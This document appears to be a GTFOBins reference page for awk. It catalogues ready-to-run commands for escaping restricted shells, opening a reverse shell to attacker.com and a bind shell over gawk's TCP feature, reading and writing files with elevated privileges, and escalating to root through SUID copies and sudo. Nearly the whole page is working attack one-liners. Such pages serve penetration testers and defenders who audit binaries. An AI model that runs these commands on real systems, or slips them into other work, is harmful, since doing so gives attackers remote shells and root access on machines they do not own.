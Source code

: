 # GTFOBin: awk

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
awk 'BEGIN {system("/bin/sh")}'
```

## Non-interactive reverse shell

It can send back a non-interactive reverse shell to a listening attacker to open a remote network access.

Run `nc -l -p 12345` on the attacker box to receive the shell.

```
RHOST=attacker.com
RPORT=12345
awk -v RHOST=$RHOST -v RPORT=$RPORT 'BEGIN {
    s = "/inet/tcp/0/" RHOST "/" RPORT;
    while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
    while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
```

## Non-interactive bind shell

It can bind a non-interactive shell to a local port to allow remote network access.

Run `nc target.com 12345` on the attacker box to connect to the shell.

```
LPORT=12345
awk -v LPORT=$LPORT 'BEGIN {
    s = "/inet/tcp/" LPORT "/0/0";
    while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
    while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
LFILE=file_to_write
awk -v LFILE=$LFILE 'BEGIN { print "DATA" > LFILE }'
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
awk '//' "$LFILE"
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which awk) .

LFILE=file_to_read
./awk '//' "$LFILE"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo awk 'BEGIN {system("/bin/sh")}'
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which awk) .

./awk 'BEGIN {system("/bin/sh")}'
```